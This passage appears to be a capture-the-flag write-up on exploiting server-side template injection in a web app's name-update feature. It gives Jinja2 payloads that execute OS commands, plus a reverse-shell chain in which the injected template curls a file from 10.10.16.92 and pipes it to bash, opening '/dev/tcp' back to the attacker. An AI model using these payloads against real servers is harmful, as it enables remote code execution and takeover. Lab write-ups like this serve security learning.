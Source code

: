 We also have potential SSTI(_Server Side Template Injection_) Vulnerability in the update name feature.

![image](https://user-images.githubusercontent.com/58165365/156234513-942de36f-405e-4274-9136-23703fbe6b71.png)

> _From [Portswigger Academy](https://portswigger.net/web-security/server-side-template-injection), Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection._

So lets actually try updating our name.

![image](https://user-images.githubusercontent.com/58165365/156235092-1fb49bde-ad4c-4bea-9b5a-0eec2989f8fb.png)

If we reload our mailbox ,we get an Email

![image](https://user-images.githubusercontent.com/58165365/156235252-360ead91-1814-4c04-be05-fc354ccdd23e.png)

A confirmation link is sent and upon clicking it, we get another mail informing us that our profile changes have been confirmed.

![image](https://user-images.githubusercontent.com/58165365/156235662-620bc734-5e5c-4c76-a117-0ffbdc454467.png)

If we try supplying a payload like {{ 7*7 }} , the output is reflected back in the mail :

![image](https://user-images.githubusercontent.com/58165365/156236573-91ea74c1-b168-4dc1-8871-5cea19adaed4.png)

> _You can get more payloads from [payloadbox](https://github.com/payloadbox/ssti-payloads) , [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)_

Lets try some more payloads

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

We see that the webserver is running as `www-data`

![image](https://user-images.githubusercontent.com/58165365/156236974-8deabfa0-2c53-44d0-8288-dd527fda7508.png)

So i created a html file that will give me a reverse on my local machine when CURLed. Simply run the following command in your local machine:

`echo 'bash -c "bash -i >& /dev/tcp/10.10.16.92/7272 0>&1"' > index.html`

Spin a simple python server to serve the file.

`sudo python3 -m http.server 1337`

You can then use the following payload to set the name.

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl 10.10.16.92:1337 | bash').read() }}
```
